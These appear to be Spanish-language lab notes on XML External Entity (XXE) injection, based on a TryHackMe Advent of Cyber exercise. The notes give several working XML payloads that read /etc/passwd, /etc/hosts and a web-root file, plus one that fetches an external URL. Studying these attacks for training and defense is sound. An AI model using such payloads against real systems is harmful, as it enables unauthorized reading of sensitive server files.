 Si la web acepta archivos o XML externos.
```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<!--Entity define lo que queremos leer-->
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```
```xml
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```
Ejemplo de TryHackMe Advent 5
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```
Tras comprobar que en el _repeater_ de BurpSuite se responde con el contenido de `/etc/hosts`, podremos obtener el contenido de la página(`ip/wishes/wish_number.txt`, en el ejemplo).
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```